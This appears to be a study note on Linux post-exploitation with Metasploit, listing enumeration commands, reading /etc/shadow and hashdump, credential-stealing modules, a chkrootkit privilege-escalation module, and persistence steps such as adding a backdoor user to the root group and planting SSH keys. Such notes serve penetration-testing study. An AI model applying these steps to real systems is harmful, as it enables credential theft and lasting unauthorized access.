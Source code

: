 Tips: When enter shell sessions, we can use `CTRL + Z` to background the session

**How**:
- `cat /etc/passwd` `cat /etc/shadow`, `group <current_user>`, `uname -a`
- `cat /etc/*issue` Get correct distribure
- `ip a s` Enum network
- `netstat -antp` Check service and port open
- `ps aux` Process enum
- `env` Enviroment variable enum

**With msf module**:
- `post/linux/enum_configs` Gather configurations file
- `post/multi/gather/env` Gather env variable
- `post.../enum_network` Network enum
- `post../gather/enum_protections` Check for protections 
- `post../enum_system` Enum system info.
- `post../checkcontainer` Container detections.
- `post../checkvm` VM check
- `post../enum_users_history` Check user history file and store in log.
- `post ../system_sessions` Create specical sessions
- `post../download_exec` Download file and execute on target.

TIPS: `loot` and `notes` to check for infor gather by msf.

## Linux privileage escalation - Rootkit

Check the process running, if we detect the `chkrootkit` old version.
- Open shell `ps aux`, check content of some bash script
- We can use the module `unnix/local/chkrootkit`, set LHOST, session, `chkrootkit` to rootkit exe path
  - Run `set LHOST eth1`

## Hashdump

- We can `cat /etc/shadow` or use `hashdump` in meterpreter session
- Or using `linux/gather/hashdump` -> `loot`

Module that we can try to get info:

- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump
- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk
- post/linux/gather/enum_xchat
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets
- post/linux/manage/sshkey_persistence

## Persistence on linux

When we gain access to the system, we can following these steps to create persistence connection on linux
- First, create new user
  - `useradd -m <user~orOtherName> -s /bin/bash`
  - `passwd user` Create password for new user
  - `usermod -aG root user` Add user to root group
  - `usermod -u <user_id> user` Set user id for user
- `search platform:linux persistence`
  - We can use `apt_package_manager_persistence` or `cron_persistence`, `service_persistence`
    - Set correct LHOST, SESSIONS and LPORT
  - Best module can use is `sshkey_persistence` -> `loot` -> We get the private key
    - Copy the key to the file, `chmod 0400 <key_path>`
    - Login with `ssh -i ssh_key root@<target_ip>`
